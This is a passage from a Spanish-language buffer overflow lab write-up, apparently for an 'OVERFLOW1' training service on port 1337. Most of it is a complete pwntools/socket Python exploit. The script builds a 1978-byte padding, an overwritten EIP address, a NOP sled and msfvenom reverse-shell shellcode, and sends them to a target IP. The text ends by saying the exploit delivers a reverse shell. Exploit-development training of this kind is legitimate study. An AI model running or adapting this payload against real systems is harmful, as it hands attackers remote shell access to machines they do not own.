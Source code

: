 ```!mona modules```
- ```https://github.com/0nyxMind/Little-endian```

Aparte de cambiar la dirección del EIP, vamos a agregarle unos NOPS, para que todo vaya correcto.

El exploit final quedaría así.

```py
#!/usr/bin/python3 

from pwn import *

if len(sys.argv) < 2:
    print("\n[!] Uso: python3 %s <IP>\n" % sys.argv[0])
    sys.exit(1)

# Variables globales
ipAddress = sys.argv[1]
rport = 1337
timeout = 5
prefijo = "OVERFLOW1 " # <- campo a inyectar 

shellcode=("\xdb\xc0\xb8\x6c\x90\x63\xb6\xd9\x74\x24\xf4\x5a\x33\xc9"
"\xb1\x52\x31\x42\x17\x03\x42\x17\x83\xae\x94\x81\x43\xd2"
"\x7d\xc7\xac\x2a\x7e\xa8\x25\xcf\x4f\xe8\x52\x84\xe0\xd8"
"\x11\xc8\x0c\x92\x74\xf8\x87\xd6\x50\x0f\x2f\x5c\x87\x3e"
"\xb0\xcd\xfb\x21\x32\x0c\x28\x81\x0b\xdf\x3d\xc0\x4c\x02"
"\xcf\x90\x05\x48\x62\x04\x21\x04\xbf\xaf\x79\x88\xc7\x4c"
"\xc9\xab\xe6\xc3\x41\xf2\x28\xe2\x86\x8e\x60\xfc\xcb\xab"
"\x3b\x77\x3f\x47\xba\x51\x71\xa8\x11\x9c\xbd\x5b\x6b\xd9"
"\x7a\x84\x1e\x13\x79\x39\x19\xe0\x03\xe5\xac\xf2\xa4\x6e"
"\x16\xde\x55\xa2\xc1\x95\x5a\x0f\x85\xf1\x7e\x8e\x4a\x8a"
"\x7b\x1b\x6d\x5c\x0a\x5f\x4a\x78\x56\x3b\xf3\xd9\x32\xea"
"\x0c\x39\x9d\x53\xa9\x32\x30\x87\xc0\x19\x5d\x64\xe9\xa1"
"\x9d\xe2\x7a\xd2\xaf\xad\xd0\x7c\x9c\x26\xff\x7b\xe3\x1c"
"\x47\x13\x1a\x9f\xb8\x3a\xd9\xcb\xe8\x54\xc8\x73\x63\xa4"
"\xf5\xa1\x24\xf4\x59\x1a\x85\xa4\x19\xca\x6d\xae\x95\x35"
"\x8d\xd1\x7f\x5e\x24\x28\xe8\xa1\x11\x33\xf5\x49\x60\x33"
"\x04\x31\xed\xd5\x6c\x55\xb8\x4e\x19\xcc\xe1\x04\xb8\x11"
"\x3c\x61\xfa\x9a\xb3\x96\xb5\x6a\xb9\x84\x22\x9b\xf4\xf6"
"\xe5\xa4\x22\x9e\x6a\x36\xa9\x5e\xe4\x2b\x66\x09\xa1\x9a"
"\x7f\xdf\x5f\x84\x29\xfd\x9d\x50\x11\x45\x7a\xa1\x9c\x44"
"\x0f\x9d\xba\x56\xc9\x1e\x87\x02\x85\x48\x51\xfc\x63\x23"
"\x13\x56\x3a\x98\xfd\x3e\xbb\xd2\x3d\x38\xc4\x3e\xc8\xa4"
"\x75\x97\x8d\xdb\xba\x7f\x1a\xa4\xa6\x1f\xe5\x7f\x63\x3f"
"\x04\x55\x9e\xa8\x91\x3c\x23\xb5\x21\xeb\x60\xc0\xa1\x19"
"\x19\x37\xb9\x68\x1c\x73\x7d\x81\x6c\xec\xe8\xa5\xc3\x0d"
"\x39")
if __name__ == "__main__":
    buffer = "A"*1978 + "\xAF\x11\x50\x62" + "\x90"*20 + shellcode
    try:      
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ipAddress, rport))
        data = s.recv(1024)
        payload = (prefijo + buffer)
        s.send(payload.encode("latin-1"))
    except: 
        print("Error de conexion")
        sys.exit(1)
```
Ahora si nos ponemos en escucha por el puerto que especificamos anteriormente en el msfvenom y ejecutamos el exploit, veremos que nos llega la Reverse Shell:
